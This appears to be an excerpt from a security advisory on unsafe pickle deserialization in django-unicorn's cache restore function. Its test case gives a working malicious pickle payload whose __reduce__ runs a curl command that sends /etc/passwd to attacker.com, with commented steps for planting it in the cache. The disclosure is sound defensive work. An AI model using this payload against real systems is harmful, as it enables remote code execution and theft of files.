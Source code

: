 ### Source Code Analysis
In `cacher.py`, the `restore_from_cache` function retrieves and deserializes components from the cache:

```python
def restore_from_cache(component_cache_key: str, request: Optional[HttpRequest] = None) -> "django_unicorn.views.UnicornView":
    cache = caches[get_cache_alias()]
    cached_component = cache.get(component_cache_key)

    if cached_component:
        roots = {}
        root: django_unicorn.views.UnicornView = cached_component
        roots[root.component_cache_key] = root

        while root.parent:
            root = cache.get(root.parent.component_cache_key)
            roots[root.component_cache_key] = root

        to_traverse: List[django_unicorn.views.UnicornView] = []
        to_traverse.append(root)

        while to_traverse:
            current = to_traverse.pop()
            current.setup(request)
            current._validate_called = False
            current.calls = []

            for index, child in enumerate(current.children):
                key = child.component_cache_key
                cached_child = roots.pop(key, None) or cache.get(key)

                cached_child.parent = current
                current.children[index] = cached_child
                to_traverse.append(cached_child)

    return cached_component
```

The code uses Python's `pickle` module without any additional security measures to validate or verify the integrity of the deserialized data.

### Security Test Case
The following test demonstrates the vulnerability, but requires access to the cache:

1. Create a malicious pickle payload:
```python
import pickle
import os

class EvilPickle:
    def __reduce__(self):
        cmd = ('curl -d "data=$(cat /etc/passwd)" https://attacker.com/exfil')
        return os.system, (cmd,)

# Create the malicious pickle data
evil_data = pickle.dumps(EvilPickle())

# This would need to be inserted into the cache under a component's cache key
# For example:
# from django.core.cache import caches
# cache = caches['default']
# cache.set('unicorn:component:target_component_id', evil_data)
```
